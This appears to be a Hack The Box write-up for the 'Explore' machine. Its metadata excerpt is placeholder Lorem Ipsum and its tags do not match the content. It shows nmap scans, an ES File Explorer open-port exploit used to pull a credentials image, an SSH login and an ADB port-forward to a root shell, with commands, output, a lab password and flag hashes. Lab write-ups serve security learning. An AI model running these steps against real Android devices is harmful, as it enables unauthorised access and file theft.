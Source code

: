```yaml
---
layout: single
title: Explore - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-07-12
classes: wide
header:
  teaser: /assets/images/htb-writeup-explore/explore_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-explore/explore_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV --open 10.10.10.247
    PORT     STATE SERVICE VERSION
    2222/tcp open  ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.91%I=7%D=7/12%Time=60EC0C84%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

  [root:~]# nmap -p- --open 10.10.10.247
    PORT      STATE SERVICE
    2222/tcp  open  EtherNetIP-1
    42135/tcp open  unknown
    46285/tcp open  unknown
    59777/tcp open  unknown

  [root:~]# nmap -sU --open 10.10.10.247
    PORT     STATE         SERVICE
    1900/udp open|filtered upnp
    5353/udp open|filtered zeroconf

2. Googling about the unknown ports we quickly discover that 42135 & 59777 = ES File Explorer - which fits the name of the box.

There are numerous vulns out there for ES File Explorer, even a MSF module, however firing them off the shelf gives me response
500 error. After wasting a good amount of time with this error, I found that this is unintended and you should restart the box
until it works.

  [root:/git/htb/explore]# curl --header "Content-Type: application/json" --request POST --data "{"command":getDeviceInfo}" http://10.10.10.247:59777 -vvv
    Note: Unnecessary use of -X or --request, POST is already inferred.
    *   Trying 10.10.10.247:59777...
    * Connected to 10.10.10.247 (10.10.10.247) port 59777 (#0)
    > POST / HTTP/1.1
    > Host: 10.10.10.247:59777
    > User-Agent: curl/7.74.0
    > Accept: */*
    > Content-Type: application/json
    > Content-Length: 23
    >
    * upload completely sent off: 23 out of 23 bytes
    * Mark bundle as not supporting multiuse
    * HTTP 1.0, assume close after body
    < HTTP/1.0 200 OK
    < Content-Type: text/plain
    < Date: Mon, 12 Jul 2021 08:47:41 GMT
    < Content-Length: 73
    <
    * Closing connection 0
    {"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}

The vulnerability now works, to automate the process download a poc script and go at it.

  [root:/git/htb/explore]# python3 rce.py --cmd listPics --ip 10.10.10.247                                                          (master✱)
    [*] Executing command: listPics on 10.10.10.247
    [*] Server responded with: 200

    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

'creds.jpg' sounds like a great picture, download it.

  [root:/git/htb/explore]# python3 rce.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247                           (master✱)
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
    	from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg

CREDS = kristi:Kr1sT!5h@Rp3xPl0r3!


3. Login with SSH and grab user.txt

  [root:~]# ssh kristi@10.10.10.247 -p 2222
    Password authentication
    Password:
    :/ $ id
      uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cd sdcard
    :/sdcard $ cat user.txt
      f32017174c7c7e8f50c6da52891ae250


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking on running port we find that 5555 is open locally. Reading about Android port 5555 we find that it's used for
   Android Debug Bridge. ADB has an exploit where we can connect to it locally and get a root shell, sounds good!

  :/sdcard $ netstat -antup
    Active Internet connections (established and servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
    ..
    tcp6       0      0 :::5555                 :::*                    LISTEN      -


  [root:~]# ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247
  [root:/opt/scanners/linux]# adb connect localhost:5555
    connected to localhost:5555
  [root:/opt/scanners/linux]# adb devices
    List of devices attached
    emulator-5554	device
    localhost:5555	device
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ $ id
      uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
    x86_64:/ $ exit

  [root:/opt/scanners/linux]# adb root
    restarting adbd as root
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ # id
      uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
    x86_64:/ # find -L /data -name "root.txt" 2>/dev/null
      /data/root.txt
    x86_64:/ # cat data/root.txt
      f04fc82b6d49b41c9b08982be59338c5


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Android Open Ports:
  https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_06B-5_Wu_paper.pdf

ES File Explorer Vuln POC:
  https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

ADB Exploit:
  https://allhacked.com/exploiting-android-through-adb/
  https://stackoverflow.com/questions/14654718/how-to-use-adb-shell-when-multiple-devices-are-connected-fails-with-error-mor
  https://www.remosoftware.com/info/how-to-root-an-android-phone

Find Command in Linux:
  https://www.linode.com/docs/guides/find-files-in-linux-using-the-command-line/

